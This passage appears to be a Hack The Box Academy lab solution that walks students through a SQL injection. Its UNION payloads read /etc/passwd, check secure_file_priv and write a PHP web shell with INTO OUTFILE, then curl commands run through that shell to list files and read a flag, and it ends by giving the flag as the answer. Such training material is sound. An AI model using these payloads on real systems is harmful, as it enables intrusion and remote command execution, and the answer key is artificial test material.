 ```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -
```

![[HTB Solutions/CBBH/z. images/0bf55610b68db9477899f2ea40d4b705_MD5.jpg]]

Subsequently, students need to make sure that the MySQL global variable `secure_file_priv` is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables WHERE variable_name="secure_file_priv" -- -
```

![[HTB Solutions/CBBH/z. images/300560907e3de0a19ba82d0210e16324_MD5.jpg]]

Since the value for the variable `SECURE_FILE_PRIV` is empty, the user `root` can read and write files to any directory in the entire file system. Therefore, students now need to write a PHP web shell `shell.php` using `INTO OUTFILE` to the directory `/var/www/html/dashboard/` (using the directory `/var/www/html/` instead will result in `Errcode: 13 "Permission Denied"`):

```sql
' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "", "" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
```

![[HTB Solutions/CBBH/z. images/c859393aef0d362d7139f9729bd926c8_MD5.jpg]]

With no error messages received, the web shell should be written to the backend server successfully. Therefore, students need to utilize `cURL` to invoke the web shell, passing commands to the URL parameter `cmd` (or any other parameter name chosen). First, students need to list all the files that are in the root directory `/` (deleting the first two lines, as they are unwanted), making sure to use `+` for the space character:

```shell
curl -w "\n" -s http://STMIP:STMPO/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'
```
```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-ubuyae6zow]─[~]
└──╼ [★]$ curl -w "\n" -s http://159.65.63.151:31872/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'
	bin
boot
dev
etc
flag_cae1dadcd174.txt
home
lib
<SNIP>
```

From the output, students will know that the file is named `flag_cae1dadcd174.txt` and is under the root directory, thus, they need to print its contents out with `cat`, making sure to use `+` for the space character:

```shell
curl -w "\n" -s http://STMIP:STMPO/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt | sed -e '1,2d'
```
```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-ubuyae6zow]─[~]
└──╼ [★]$ curl -w "\n" -s http://159.65.63.151:31872/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt | sed -e '1,2d'

	528d6d9cedc2c7aab146ef226e918396
```

Answer: `528d6d9cedc2c7aab146ef226e918396`